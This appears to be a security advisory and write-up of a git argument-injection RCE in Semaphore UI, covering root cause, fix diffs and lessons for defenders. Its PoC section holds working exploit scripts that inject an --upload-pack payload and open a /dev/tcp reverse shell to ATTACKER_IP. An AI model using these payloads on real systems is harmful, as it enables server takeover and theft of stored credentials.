



# One Dash From RCE: Git Argument Injection in Semaphore UI

**GHSA-xp7j-h7jc-4w8p — CVSS 9.9 — affected 2.18.12 / 2.18.13 / 2.18.16, fixed in 2.18.20**

## Introduction

[Semaphore UI](https://github.com/semaphoreui/semaphore) is a web front-end for Ansible, Terraform, OpenTofu, and shell scripts. You point it at a git repository, it clones your playbooks, and it runs them on a schedule, on a webhook, or on demand. It is the sort of tool that sits in the middle of an infrastructure holding the credentials for everything around it.

This post walks through a vulnerability I reported in the way Semaphore handles the `git_url` field of a repository. In short: the URL was passed to the `git` as a positional argument without ever being checked for a leading dash. A user could set it to `--upload-pack=<command>` and git would execute that command.

Three things make it worth writing up:

1. **It is argument injection, not shell injection.** Semaphore does not build a command string and hand it to a shell. It builds an `argv` array and `exec`s it directly. Every classic `; id`, `$(id)`, `| id` payload fails here, and that is precisely why the bug survived: the code *looks* correct.
2. **It executes in the main server process.** Semaphore has a remote-runner architecture designed to keep playbook execution away from the control plane. This sink sits on the wrong side of that boundary i.e. in the scheduler, inside the server, next to the encryption keys.
3. **A low-privileged role is enough.** Project *Manager* is a role explicitly denied the ability to change project settings or manage users. It is enough to get code execution on the host.

Everything below is against the 2.18.12 source, with the 2.18.20 fix diffed at the end.

## Background: how Semaphore shells out to git

Semaphore ships two git backends behind a common interface, selected by config:

```go
// db_lib/GitClientFactory.go:5
func CreateDefaultGitClient(keyInstaller AccessKeyInstaller) GitClient {
	switch util.Config.GitClientId {
	case util.GoGitClientId:
		return CreateGoGitClient(keyInstaller)
	case util.CmdGitClientId:
		return CreateCmdGitClient(keyInstaller)
	default:
		return CreateCmdGitClient(keyInstaller)
	}
}
```

Note the `default` branch: with no `git_client` set in the config, the out-of-the-box state, you get `CmdGitClient`, the one that forks the real `git` binary. `GoGitClient` uses the pure-Go `go-git` library and is not affected. **The vulnerable path is the default path.**

Here is how `CmdGitClient` builds a command:

```go
// db_lib/CmdGitClient.go:21
func (c CmdGitClient) makeCmd(
	r GitRepository,
	targetDir GitRepositoryDirType,
	installation ssh.AccessKeyInstallation,
	args ...string,
) *exec.Cmd {
	cmd := exec.Command("git") //nolint: gas

	cmd.Env = append(getEnvironmentVars(), installation.GetGitEnv()...)

	// ... sets cmd.Dir ...

	cmd.Args = append(cmd.Args, args...)   // line 55

	cmd.SysProcAttr = util.Config.GetSysProcAttr()

	return cmd
}
```

This is textbook-safe construction. `exec.Command("git")` seeds `cmd.Args` with `["git"]`, and each `arg` is appended as its own discrete `argv` element. There is no `/bin/sh -c`, no string concatenation, no format string. A `git_url` of `foo; id` becomes a single argv entry containing a literal semicolon, and git treats it as a repository name.

## Root cause

The bug is not in one function. It is three different locations that compose into a vulnerability.

### 1. The URL is never validated, but the branch is

```go
// db/Repository.go:138
func (r Repository) Validate() error {
	if r.Name == "" {
		return &ValidationError{"repository name can't be empty"}
	}

	if r.GitURL == "" {
		return &ValidationError{"repository url can't be empty"}
	}

	if r.GetType() != RepositoryLocal && r.GitBranch == "" {
		return &ValidationError{"repository branch can't be empty"}
	}

	if err := ValidateGitBranch(r.GitBranch, "repository"); err != nil {
		return err
	}

	return nil
}
```

`GitURL` is checked for emptiness and nothing else. `GitBranch`, one field over, gets a real syntactic check:

```go
// db/git_branch.go:5
func ValidateGitBranch(branch string, objectName string) error {
	if branch == "" {
		return nil
	}

	if err := plumbing.NewBranchReferenceName(branch).Validate(); err != nil {
		return NewValidationError(objectName + " branch name is invalid")
	}

	return nil
}
```

Somebody understood that user-controlled values flowing into git arguments need constraining and applied that understanding to the branch, which is *also* a positional argument, while leaving the URL beside it untouched.

### 2. An option looks like an SSH URL

`GetType()` classifies the repository by inspecting the URL string:

```go
// db/Repository.go:113
func (r Repository) GetType() RepositoryType {
	if strings.HasPrefix(r.GitURL, "/") {
		return RepositoryLocal
	}

	if util.IsWindowsLocalRepositoryPath(r.GitURL) {
		return RepositoryLocal
	}

	re := regexp.MustCompile(`^(\w+)://`)
	m := re.FindStringSubmatch(r.GitURL)
	if m == nil {
		return RepositorySSH      // <-- the catch-all
	}
	// ...
}
```

Feed it `--upload-pack=bash -c "..."`. It does not start with `/`. It is not a Windows path. It does not match `^(\w+)://`. So it falls through to `RepositorySSH` that is the catch-all that exists to support scp-style remotes like `git@github.com:user/repo.git`.

That classification matters because of what happens next:

```go
// db/Repository.go:72
func (r Repository) GetGitURL(secure bool) string {
	url := r.GitURL

	if r.GetType() == RepositoryLocal {
		return util.NormalizeLocalFilesystemPath(url)
	}

	if secure {
		return url
	}

	if r.GetType() == RepositoryHTTP {
		// ... credential injection, includes a regexp that would
		// panic on a malformed URL ...
	}

	return url        // SSH type: returned completely untouched
}
```

The `RepositoryHTTP` branch actually parses the URL with a regexp and *panics* if it does not match `^(https?)://`. Had our payload been classified as HTTP, it would have been rejected by accident. Classified as SSH, it is returned as it is. The one code path with incidental URL parsing is the one we do not take.

### 3. No end-of-options marker at the sink

```go
// db_lib/CmdGitClient.go:169
func (c CmdGitClient) GetLastRemoteCommitHash(r GitRepository) (hash string, err error) {
	out, err := c.output(r, GitRepositoryTmpPath, "ls-remote", r.Repository.GetGitURL(false), r.Repository.GitBranch)
	// ...
}
```

The resulting `argv`:

```
["git", "ls-remote", "<attacker-controlled>", "<branch>"]
```

There is no `--` or `--end-of-options` between the subcommand and the user data. Argument parsing in git is positional-order-dependent: anything starting with `-` before the end-of-options marker is an option, wherever it appears. Passing `argv` directly to `exec` guarantees the *shell* will not reinterpret your data. It guarantees nothing about how the *target program* will.

### The composition



Each step is individually reasonable. The gap is that no single component owned the question "is this string safe to hand to git as a positional argument?"

## Why git executes it

`--upload-pack=<path>` tells git which program to invoke on the remote end of a fetch. For the SSH transport, git runs it on the remote host. For the **local** transport, git runs it *right here*.

That local behaviour is the whole exploit, and it uses how the argv is consumed. Given:

```
git ls-remote --upload-pack='bash -c "…"' master
```

git binds `--upload-pack=…` as an option, which leaves `master` as the first *positional*. That is the `<repository>` slot. `master` is not a URL, so git resolves it as a local path and selects the local transport. Local transport means: run the upload-pack program locally.

We can watch it happen:

```bash
$ git --version
git version 2.54.0

$ git ls-remote --upload-pack='touch pwned.txt;true' master
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.

$ ls -la pwned.txt
-rw-rw-r-- 1 faran faran 0 Aug  7 12:15 pwned.txt
```

Look closely at that output. **git exits non-zero with a hard failure, and the payload still ran.** Execution happens during transport setup, before git ever discovers there is no repository there. This is what makes the bug so quiet in practice: the caller sees an error, logs it or discards it, and moves on. Nothing in Semaphore's UI indicates success, because from git's perspective nothing succeeded.

Git routes the upload-pack string through `/bin/sh` when it contains shell metacharacters, so the payload is not limited to a bare binary path. Pipes, quotes and redirection all work:

```bash
$ B64=$(printf '%s' 'id > shell_proof.txt' | base64 -w0)
$ git ls-remote --upload-pack="bash -c \"echo $B64 | base64 -d | bash\";true" master
fatal: Could not read from remote repository.

$ cat shell_proof.txt
uid=1000(faran) gid=1000(faran) groups=1000(faran),4(adm),24(cdrom),27(sudo),…
```

### Anatomy of the payload

```
--upload-pack=bash -c "echo <base64> | base64 -d | bash";true
└──────┬─────┘└──────────────┬───────────────────────┘└─┬─┘
       │                     │                          │
   git option          base64-wrapped payload      argument sink
```

- **`--upload-pack=`** — the injected option. Everything after `=` is the program git will run.
- **base64 wrapping** — the payload travels through JSON, a database, and a shell. Encoding it sidesteps every quoting layer in between, so arbitrary multi-line commands survive intact.
- **`;true`** — this one needs explaining. Git appends the repository positional to the upload-pack program when it invokes it. Instrumenting a wrapper script confirms it:

  ```bash
  $ git ls-remote --upload-pack="$PWD/dump.sh" master
  fatal: Could not read from remote repository.

  $ cat argv_dump.txt
  count=1
  arg: [master]
  ```

So the shell actually executes `bash -c "…" ; true 'master'`. The `;true` gives that dangling `master` somewhere harmless to land and forces a clean exit status, keeping the trailing argument out of the payload's own argument handling.


## Reaching the sink

Two routes reach `CmdGitClient`, and they differ in an interesting way.

### Path A — the schedule poller

```go
// services/schedules/SchedulePool.go:61
func (r ScheduleRunner) tryUpdateScheduleCommitHash(schedule db.Schedule) (updated bool, err error) {
	repo, err := r.pool.store.GetRepository(schedule.ProjectID, *schedule.RepositoryID)
	if err != nil {
		return
	}

	err = r.pool.encryptionService.DeserializeSecret(&repo.SSHKey)
	if err != nil {
		return
	}

	remoteHash, err := db_lib.GitRepository{
		Logger:     nil,
		TemplateID: schedule.TemplateID,
		Repository: repo,
		Client:     db_lib.CreateDefaultGitClient(r.keyInstaller),
	}.GetLastRemoteCommitHash()

	if err != nil {
		return          // <-- our RCE has already fired; the error is discarded
	}
	// ...
}
```

This runs on the cron pool inside the Semaphore **server**, not in a task runner. Two consequences:

- `Logger` is `null` — there is no task log to write the command to, so the invocation leaves no user-visible trace.
- The `err` return on a failed `ls-remote` is swallowed by the caller. The payload executes; the scheduler shrugs and tries again next tick.

Attach a `* * * * *` cron and you get execution within sixty seconds, and again every minute after.

### Path B — the branches endpoint

```go
// api/projects/repository.go:56
func (c *RepositoryController) GetRepositoryBranches(w http.ResponseWriter, r *http.Request) {
	repo := helpers.GetFromContext(r, "repository").(db.Repository)

	if repo.GetType() == db.RepositoryLocal || repo.GetType() == db.RepositoryFile {
		helpers.WriteJSON(w, http.StatusBadRequest, "Wrong repository type: "+repo.GetType())
		return
	}

	git := db_lib.GitRepository{
		Repository: repo,
		Client:     db_lib.CreateDefaultGitClient(c.keyInstaller),
	}

	branches, err := git.GetRemoteBranches()      // line 69
	// ...
}
```

Routed at `api/router.go:415` as `GET /api/project/{id}/repositories/{repository_id}/branches`, landing on the second unguarded sink:

```go
// db_lib/CmdGitClient.go:187
out, err := c.output(r, GitRepositoryTmpPath, "ls-remote", "--heads", r.Repository.GetGitURL(false))
```

The type guard at the top rejects `Local` and `File` and our payload is neither, because `GetType()` calls it SSH. It passes through. This path is **synchronous**: one HTTP request, immediate execution, no waiting for cron. Worth noting for anyone assessing exposure, since a scheduled task is not a precondition for exploitation.

### The trust boundary



Semaphore's runner architecture exists so that playbook code (which is inherently untrusted) runs somewhere isolated from the control plane. This bug bypasses that design entirely. It does not need a task to run at all. The `git ls-remote` happens in the server, so the runner isolation never enters the picture, **regardless of how the deployment is configured**.


## Exploitation

### Privilege required

The repository routes sit behind:

```go
// api/router.go:294
projectUserAPI.Use(projects.ProjectMiddleware, projects.GetMustCanMiddleware(db.CanManageProjectResources))
```

And the role table:

```go
// db/ProjectUser.go:23
ProjectOwner:   CanRunProjectTasks | CanManageProjectResources | CanUpdateProject | CanManageProjectUsers,
ProjectManager: CanRunProjectTasks | CanManageProjectResources,
```

`ProjectManager` holds `CanManageProjectResources` (enough to create a repository) while explicitly lacking `CanUpdateProject` and `CanManageProjectUsers`. It is a deliberately constrained role: someone trusted to wire up playbooks, not to administer the project. That user can reach code execution on the server host and read the encryption keys protecting every other project's secrets.

### The chain



The exploit needs a template and a schedule only because they are the objects the poller walks; they are scaffolding, not part of the vulnerability.

### The PoC

Environment: the official semaphore v2.18.12 binary; git, python3, nc present. This PoC uses the default git client and non_admin_can_create_project: false; the attacker lowpriv is onboarded by the admin as a normal Manager (no special configuration).

#### Terminal 1 — config + users + server

```bash
  cd ~/PoC && mkdir -p tmp
  cat > config.json <<EOF
  { "sqlite":{"host":"$PWD/database.sqlite"},"dialect":"sqlite","tmp_path":"$PWD/tmp",
    "port":":3000","interface":"127.0.0.1",
    "cookie_hash":"$(head -c32 /dev/urandom|base64)","cookie_encryption":"$(head -c32 /dev/urandom|base64)",
    "access_key_encryption":"$(head -c32 /dev/urandom|base64)","git_client":"cmd_git",
    "non_admin_can_create_project":false,"web_host":"http://127.0.0.1:3000/" }
  EOF
  ./semaphore user add --admin --login admin  --name Admin --email admin@example.com --password 'Admin123!'  --config config.json
  ./semaphore user add --login lowpriv --name Low   --email low@example.com   --password 'LowPriv123!' --config config.json
  ./semaphore server --config config.json
```

#### Terminal 2 — attacker listener

```bash
  nc -lvnp 4444
```

#### Terminal 3 — admin onboards lowpriv as Manager, then lowpriv exploits

```bash
  cd ~/PoC

  cat > onboard.sh <<'EOF'
  #!/usr/bin/env bash
  set -euo pipefail
  BASE="${BASE:-http://127.0.0.1:3000}"
  ADMIN="${ADMIN:-admin}"; ADMIN_PASS="${ADMIN_PASS:-Admin123!}"; MEMBER="${MEMBER:-lowpriv}"
  JAR=$(mktemp)
  curl -s -c "$JAR" -X POST "$BASE/api/auth/login" -H 'Content-Type: application/json' \
    -d "{\"auth\":\"$ADMIN\",\"password\":\"$ADMIN_PASS\"}" >/dev/null
  PROJ_PID=$(curl -s -b "$JAR" -X POST "$BASE/api/projects" -H 'Content-Type: application/json' \
    -d '{"name":"team-project","alert":false}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["id"])')
  USER_ID=$(curl -s -b "$JAR" "$BASE/api/users" | \
    python3 -c "import sys,json;print(next(u['id'] for u in json.load(sys.stdin) if u['username']=='$MEMBER'))")
  curl -s -b "$JAR" -X POST "$BASE/api/project/$PROJ_PID/users" -H 'Content-Type: application/json' \
    -d "{\"user_id\":$USER_ID,\"role\":\"manager\"}" -o /dev/null
  rm -f "$JAR"; echo "[*] $MEMBER is Manager of project $PROJ_PID" >&2; echo "$PROJ_PID"
  EOF
  chmod +x onboard.sh

  cat > rce.sh <<'EOF'
  #!/usr/bin/env bash
  set -euo pipefail
  BASE="${BASE:-http://127.0.0.1:3000}"; LOGIN="${LOGIN:-lowpriv}"; PASS="${PASS:-LowPriv123!}"
  PROJ_PID="${PROJ_PID:?set PROJ_PID from onboard.sh}"
  CMD="$*"; B64=$(printf '%s' "$CMD" | base64 -w0)
  GITURL="--upload-pack=bash -c \"echo $B64 | base64 -d | bash\";true"
  JAR=$(mktemp); jid(){ python3 -c 'import sys,json;print(json.load(sys.stdin)["id"])'; }
  post(){ curl -s -b "$JAR" -X POST "$BASE$1" -H 'Content-Type: application/json' -d "$2"; }
  curl -s -c "$JAR" -X POST "$BASE/api/auth/login" -H 'Content-Type: application/json' \
    -d "{\"auth\":\"$LOGIN\",\"password\":\"$PASS\"}" >/dev/null
  KID=$(post /api/project/$PROJ_PID/keys "{\"name\":\"k\",\"type\":\"none\",\"project_id\":$PROJ_PID}" | jid)
  BODY=$(python3 -c "import json,sys;print(json.dumps({'name':'r','project_id':$PROJ_PID,'git_url':sys.argv[1],'git_branch':'master','ssh_key_id':$KID}))" "$GITURL")
  RID=$(post /api/project/$PROJ_PID/repositories "$BODY" | jid)
  TID=$(post /api/project/$PROJ_PID/templates "{\"name\":\"t\",\"project_id\":$PROJ_PID,\"app\":\"bash\",\"playbook\":\"n.sh\",\"repository_id\":$RID,\"type\":\"\"}" | jid)
  post /api/project/$PROJ_PID/schedules "{\"name\":\"s\",\"project_id\":$PROJ_PID,\"template_id\":$TID,\"repository_id\":$RID,\"cron_format\":\"* * * * *\"}" >/dev/null
  rm -f "$JAR"; echo "[*] queued as lowpriv (Manager of $PROJ_PID): $CMD"
  EOF
  chmod +x rce.sh

  PROJ_PID=$(./onboard.sh)
  ATTACKER_IP=127.0.0.1
  PROJ_PID=$PROJ_PID ./rce.sh "bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1"
```

Within ~60 s the schedule fires and the Semaphore server process connects back to the listener (Terminal 2), giving an interactive shell as the server user. Verify with id and cat ~/PoC/config.json (the server can read its own access_key_encryption master key).

### Impact

Code execution in the server process means:

- **The access-key encryption keys.** Semaphore encrypts stored SSH keys and login/password credentials; the server holds the key material to decrypt them. All of it, across all projects — not just projects the attacker can see.
- **Every project's secrets**, by extension. A Manager scoped to one project reads credentials belonging to all of them.
- **The infrastructure behind them.** Semaphore's stored credentials are, by definition, keys to other machines. The blast radius is the estate Semaphore manages.
- **Persistence.** The cron path re-fires every minute until the repository row is deleted.


## The fix

Maintainers shipped defence in depth in 2.18.20 — both a sink-side and a source-side fix.

**Sink side:** `--end-of-options` on every git invocation carrying user-controlled positionals.

```diff
--- a/db_lib/CmdGitClient.go
+++ b/db_lib/CmdGitClient.go
@@ -115,6 +115,7 @@
 		"--recursive",
 		"--branch",
 		r.Repository.GitBranch,
+		"--end-of-options",
 		r.Repository.GetGitURL(false),
 		dirName)
 }

@@ -122,7 +123,7 @@
-	err := c.run(r, GitRepositoryFullPath, "pull", "origin", r.Repository.GitBranch)
+	err := c.run(r, GitRepositoryFullPath, "pull", "origin", "--end-of-options", r.Repository.GitBranch)

@@ -167,7 +168,7 @@
-	out, err := c.output(r, GitRepositoryTmpPath, "ls-remote", r.Repository.GetGitURL(false), r.Repository.GitBranch)
+	out, err := c.output(r, GitRepositoryTmpPath, "ls-remote", "--end-of-options", r.Repository.GetGitURL(false), r.Repository.GitBranch)

@@ -185,7 +186,7 @@
-	out, err := c.output(r, GitRepositoryTmpPath, "ls-remote", "--heads", r.Repository.GetGitURL(false))
+	out, err := c.output(r, GitRepositoryTmpPath, "ls-remote", "--heads", "--end-of-options", r.Repository.GetGitURL(false))
```

`--end-of-options` is git's own marker, standardised in git 2.24, and it is stricter than bare `--`: for several commands `--` separates revisions from *pathspecs* rather than options from operands, so `--` alone does not always mean what you want. `--end-of-options` unambiguously terminates option parsing. Note the fix also covers `Clone` and `Pull`, where `GitBranch` is a positional too but the branch validator constrained that field, but the maintainers correctly declined to rely on one validator holding forever.

**Source side:** a new validator, wired into `Validate()` right where the URL check was missing.

```go
// db/git_url.go @ v2.18.20
// ValidateGitURL rejects repository URLs that git would interpret as a
// command-line option instead of a repository location. […]
func ValidateGitURL(url string, objectName string) error {
	if strings.HasPrefix(strings.TrimSpace(url), "-") {
		return NewValidationError(objectName + " url is invalid")
	}

	return nil
}
```

```diff
--- a/db/Repository.go
+++ b/db/Repository.go
@@ -144,6 +144,10 @@
 		return &ValidationError{"repository url can't be empty"}
 	}
 
+	if err := ValidateGitURL(r.GitURL, "repository"); err != nil {
+		return err
+	}
+
 	if r.GetType() != RepositoryLocal && r.GitBranch == "" {
```

Note the `strings.TrimSpace` — without it, `" --upload-pack=…"` with a leading space would slip past the prefix check while git, which trims its own arguments in several code paths, might still read it as an option.


## Takeaways

**`exec` without a shell solves one problem, not the class.** Passing an argv array eliminates shell metacharacter injection completely. It does nothing about the target program's own option parser. If untrusted data becomes a positional argument, you need an end-of-options marker, a value that cannot start with `-`, or both. This applies well beyond git — `curl`, `rsync`, `tar`, `ssh`, `find`, and `mysql` all have options that read or write files or execute programs.

**Validate the field, not the vibe.** The branch got a validator and the URL did not, because branch names visibly have a grammar and URLs feel like opaque user data. The relevant question is not "does this field have a format?" but "where does this value end up?" Both ended up in the same argv.

**Type-detection is not validation.** `GetType()` was written to route behaviour, not to reject input. But once a catch-all branch exists — `RepositorySSH`, here — every malformed value in the world lands in it and gets treated as legitimate. If a classifier has a default case, that default is an implicit trust decision.

**Follow the process boundary, not the architecture diagram.** Semaphore has real runner isolation for playbook execution. This sink was in the scheduler, in the server, and the isolation was simply not on that path. When threat modelling, trace where the `exec` actually happens rather than where the design says untrusted code runs.

## Demo

